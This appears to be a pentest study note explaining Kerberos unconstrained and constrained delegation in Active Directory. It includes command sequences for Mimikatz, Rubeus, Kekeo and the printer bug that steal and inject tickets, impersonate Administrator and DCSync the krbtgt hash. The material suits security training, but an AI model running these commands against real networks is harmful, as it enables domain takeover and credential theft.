 Kerberos Delegation allows the reuse of end-user credentials to access resources hosted on a different server
This is typically useful in multi-tier serice or applicaitons where Kerberos double-hop is required

Example: a web server and a seperate database server, users authenticate to ta web server and the web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account

The service account for web service must be trusted for delegation to be able to make requests as a user


Steps for Delegation


1. A user provides credentials to the DC
2. The DC returns A TGT
3. The user requests a TGS for the web service on the Web Server
4. The DC provides a TGS
5. The user sends the TGT and the TGS to the web server, due to delegation the TGT of the user is embedded in the TGS
6. The web server service account uses the user's TGT to request a TGS for the database server from the DC
7. The web server service account connects to the database server as the user



There are two basic types of kerberos delegation. In both types of delegations a mechanism is required to impersonate the incoming user and authenticate to the second hop server as the user.

- General/Basic or Unconstrained Delegation which allows the first hop server to request access to any service on any computer on the domain
- Constrained Delegation which allows the first hop server to request access only to specified services on specified computers. If the user is not user Kerberos Authentication to authenticat to the first hop server, Windows offers Protocol transition to transition the request to Kerberos


## Unconstrained Delegation

When set for a paticular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user. When unconstrained delegation is enabled, the DC places the user's TGT inside the TGS. When presented to the server with unconstrained delegation the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any othe resource as the user. This could be used to escalate privileges in the case we can compromise the computer with unconstrained delegation and a domain admin connects to that machine.

Check for unconstrained delegation

```powershell
#The DC will always return as unconstrained, ignore this
#Discover domain computers which have unconstrained delegation enabled usingPowerView:
Get-NetComputer -UnConstrained


#Using ActiveDirectorymodule:
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}


#Check for a connection from a certain user
Invoke-UserHunter -ComputerName appsrv -Poll 100 -Username Administrator -Delay 5 -Verbose
```


Compromise servers where this is enabled.

```powershell
#Run following command on it to check if any DA token is available:
Invoke-Mimikatz -Command '"sekurlsa::tickets"'


#We must trick or wait for a domain admin to connect a service on appsrv.
#Now, if the command is run again:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'


#The DA token could be reused:
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-abc.example.LOCAL.kirbi"' 
```

#### Printer Bug

A feature of MS-RPRN which allows any domain user (Authenticated User) to force any machine that is running the spooler service to connect to a second machine of the domain user's choice. We can force the dc to connect to appsrv by abusing the Printer Bug.


```powershell
#We can capture the TGT of dc$ by using Rubeus (https://github.com/GhostPack/Rubeus) on appsrv:
.\Rubeus.exe monitor /interval:5 /nowrap


#And after that run MS-RPRN.exe (https://github.com/leechristensen/SpoolSample) on any machine in the domain:
.\MS-RPRN.exe \\dc.abc.example.local  \\appsrv.abc.example.local 


#Copy the base64 encoded TGT, remove extra spaces (if any) and use it on any machine:
.\Rubeus.exe ptt /ticket:


#Once the ticket is injected, run DCSync:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:example\krbtgt"
```

## Constrained Delegation

When enabled on a service account, allows access only to specified  services on specified computers as a user. A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization. To impersonate the user, Service for User (S4U) extension is used which provides two extensions:

- Service for User to Self (S4U2self) - allows a service to obtain a forwardable TGS to itself on behalf of a user with just the prinicipal name without supplying a password. The service account must have the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl Attribute
- Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to a second service on behalf of a user. Which service is controlled by msDS-AllowedToDelegeateTo attribute. This attribute contains a list of SPNs which the user tokens can be forwarded


Example with protocol transition
1. A user, Joe, authenticates to the web service (running with service account websvc) using a non-kerberos compatible authentication mechanism
2. The web service requests a ticket from the KDC for Joe's account without supplying a password, as the websvc account
3. The KDC checks the websvc UserAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION (T2A4D) attribute, and that Joe's account is not blocked for delegation. If ok it returns a forwardable ticket for Joe's account (S4U2self)
4. The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/mssql.abc.example.local service
5. The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for mssql (S4U2proxy)
6. The web service can now authenticate to CIFS on mssql as Joe using the supplied TGS

To abuse delegation here we need to have access to an account that has TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo as ANY user


Abuse constrained delegation with Invoke-Mimikatz

```powershell
#Enumerate users and computers with constrained delegation enabled
#Using PowerView(dev)
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth


#Using ActiveDirectorymodule:
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo


#Either plaintext password or NTLM hash is required. 
#We already have access to websvc'shash from adminsrv
#Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram):
tgt::ask /user:websvc /domain:abc.example.local /rc4:cc098f204c5887eaa8253e7c2749156f 


#Using s4u from Kekeo, we request a TGS (steps 4 & 5):
tgs::s4u /tgt:TGT_websvc@abc.example.LOCAL_krbtgt~abc.example.local@abc.example.LOCAL.kirbi /user:Administrator@abc.example.local /service:cifs /mssql.abc.example.LOCAL


#Using mimikatz, inject the ticket:
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@abc.example.local@abc.example.LOCAL_cifs~mssql.abc.example.LOCAL@abc.example.LOCAL.kirbi"'

ls\\mssql.abc.example.local\c$
```


Abuse constrained delegation with Rubeus

```powershell
#This will request a TGS and TGT in a single command
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/mssql.abc.example.LOCAL" /ptt

ls \\mssql.abc.example.local\c$
```


Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified. This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service


Using Kekeo
```powershell
#Either plaintext password or NTLM hash is required. 
#If we have access to adminsrvhash•Using asktgtfrom Kekeo, we request a TGT:
tgt::ask /user:adminsrv$ /domain:abc.example.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67


#Using s4u from Kekeo_one(no SNAME validation):
tgs::s4u /tgt:TGT_adminsrv$@abc.example.LOCAL_krbtgt~abc.example.local@abc.example.LOCAL.kirbi /user:Administrator@abc.example.local /service:time /dc.abc.example.LOCAL|ldap/dc.abc.example.LOCAL
```

Using Mimikatz
```powershell
Invoke-Mimikatz-Command '"kerberos::ptt TGS_Administrator@abc.example.local@abc.example.LOCAL_ldap~dc.abc.example.LOCAL@abc.example.LOCAL_ALT.kirbi"'

Invoke-Mimikatz-Command '"lsadump::dcsync /user:example\krbtgt"' 
```

Using Rubeus
```powershell
#request TGT and TGS in one command
.\Rubeus.exe s4u /user:adminsrv$ /rc4:1fadb1b13edbc5a61cbdc389e6f34c67 /impersonateuser:Administrator /msdsspn:"time/dc.abc.example.LOCAL" /altservice:ldap /ptt


#After injection, we can run DCSync:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:example\krbtgt"' 
```